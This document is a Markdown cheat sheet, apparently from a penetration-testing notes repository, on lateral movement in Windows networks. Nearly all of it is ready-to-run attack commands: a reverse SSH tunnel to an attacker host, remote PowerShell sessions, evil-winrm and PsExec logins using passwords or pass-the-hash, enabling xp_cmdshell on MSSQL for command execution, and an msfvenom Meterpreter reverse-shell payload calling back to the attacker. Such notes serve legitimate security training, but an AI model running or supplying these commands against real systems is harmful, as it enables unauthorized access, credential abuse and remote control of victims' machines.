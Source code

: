 # 06 - Lateral Movement

Index
- [SSH Tunneling](#SSH-Tunneling)
- [Windows New-PSSession](#Windows-New-PSSession)
- [Evil-winrm](#Evil-winrm)
- [PsExec64](#PsExec64)

## SSH Tunneling
Fron INTERNAL target to ATTACKER workstation:
``` bash
ssh -N -R 9000 $USER@$KALI
ssh -N -R 9000 sheliak@192.168.1.1
```

## Windows New-PSSession
``` powershell
$username = 'username';
$password = 'password';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.1.1 -Credential $credential                                 ## create a session
Enter-PSSession 1                                                                               ## login in session 1
```

## Evil-winrm
Linux tool to access a remote system via WinRM and obtain a shell.
``` bash
evil-winrm -i 192.168.1.1 -u 'username' -p 'password'
evil-winrm -i 192.168.1.1 -u 'username' -H '00000000000000000000000000000000'
```

## PsExec64
``` powershell
./PsExec64.exe -i \\TARGET -u $DIMAIN\$USER -p "$PASSWORD" powershell
./PsExec64.exe -i \\192.168.1.1 -u TEST\username -p "password" powershell
```

``` bash
impacket-psexec -hashes 00000000000000000000000000000000:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX $username@192.168.1.1
```


## MSSQL per reverse shell
``` bash
impacket-mssqlclient '$username':'$password'@192.168.1.1 -windows-auth
```
Manual Code Exec
``` text
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## Meterpreter reverse shell (1)
Payload for windows:
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse.exe
```